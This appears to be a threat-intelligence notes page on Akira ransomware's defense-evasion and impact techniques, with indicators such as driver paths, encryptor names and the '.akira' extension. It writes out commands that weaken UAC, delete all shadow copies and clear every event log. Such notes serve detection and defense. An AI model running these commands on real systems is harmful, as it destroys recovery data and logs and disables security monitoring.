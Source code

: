 - Due to privs can disable securyity via control panel
- Powershell scripts to set-mppreference options set to disable or $true depending
- Created VMs to avoid EDR and encrypt via SMB were observed in hyperv environments
- Disabling security in Nas products
- Disabling UAC for local accounts
```
reg add
\"HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Pol
icies\\System\" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```
- BYOVD and ran consent.exe from EDR folders which loaded wmsgapi.dll or msimg32.dll which loaded the driver located in temp to disable edr
- `C:\Users\REDACTED\AppData\Local\Temp\churchill_driver.sys`
- `C:\Users\REDACTED\AppData\Local\Temp\rwdrv.sys`
- `C:\Users\REDACTED\AppData\Local\Temp\hlpdrv.sys`
- HyperV check using a bat script
- reg query

```
"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\DeviceGuard\Scenarios
\HypervisorEnforcedCodeIntegrity" > nul 2>&1
if %ERRORLEVEL% neq 0 (
   echo HVCI registry key does not exist. HVCI is NOT enabled. ALL IS GOOD!
   exit /b
)
```

<br>


Impact
- `"C:\WINDOWS\system32\vssadmin.exe" delete shadows /all /quiet`
- `powershell.exe -Command Get-WmiObject Win32_Shadowcopy | Remove-
WmiObject`
- `w.exe  -p=\\[redacted]\C$ -n=1`
- `w.exe  -n=3 -p=X:\ -dellog`
- `akira.exe`
- `lck.exe`
- `lock.exe`
- `locker.exe`
- `pr.exe`
- `n.exe`
- `s.exe`
- `aki.exe`
- `win.exe`
- `chmod +x` befor running esxi encryptor
- `esx -n -p -fork`
- `winlocker.exe`
- `hello.exe`
- `powershell.exe -ep bypass -Command "Get-WinEvent -ListLog * | where { $_.RecordCount } | ForEach-Object -Process{ [System.Diagnostics.Eventing.Reader.EventLogSession]::GlobalSession.ClearLog($_.LogName) }"`
- target backups, format/wip disks/ factory reset
- differy scenarios:
   1: Virtual Disk level - vmdks are encrypted and laptops/desktops left unencypted
   2: Full environment encrypted (OS and vmdks)
   3: In-guest encrypion only - encrypts contents of vms rather than the underlying disk files
- windows locker writes log files like:
 -  `Log-DD-MM-YYYY-HH-MM-SS.txt`.
- `.akira` appended to files
- dumps `akira_readme.txt` within each folder
